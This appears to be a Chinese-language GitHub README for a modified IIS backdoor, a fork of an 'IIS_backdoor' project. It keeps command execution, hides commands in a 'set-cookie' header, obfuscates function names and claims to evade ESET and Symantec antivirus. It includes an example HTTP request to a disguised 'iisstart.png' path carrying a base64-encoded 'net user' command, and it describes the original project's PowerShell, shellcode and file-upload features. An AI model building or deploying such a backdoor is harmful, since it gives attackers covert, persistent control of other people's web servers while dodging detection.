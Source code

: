 参考WBGlIl大佬项目，删除powershell和shellcode功能，只保留cmd功能

Cookie: cmd= 改成 Cookie: set-cookie=，对函数名进行混淆

目前已绕过 eset 和 symantec 

```
GET /aspnet_client/system_web/iisstart.png HTTP/2
Host: 192.168.42.128
Cookie: set-cookie=bmV0IHVzZXI=
```
![飞书20230223-115221](https://user-images.githubusercontent.com/72059221/220817771-b66c981d-df1e-46ff-8a02-ec4a62f023c5.jpg)

![飞书20230223-115225](https://user-images.githubusercontent.com/72059221/220817780-05b90dbb-fb4c-435f-92ea-a4fa5560cd82.jpg)

---分割线---

原项目地址：https://github.com/WBGlIl/IIS_backdoor

主要是实现了3个功能执行cmd命令，C#调用powershell，执行shellcode

其实文件上传也写了就是IIS_backdoor_shell项目没有添加对应的选项

因为Cookie大小限制是4096所以不能传输很大的文件，你也可以自行修改项目不使用Cookie传输数据

其实还有很多可以改进的地方不过我懒的写了暂时就这样吧

代码写的比较渣大佬误喷
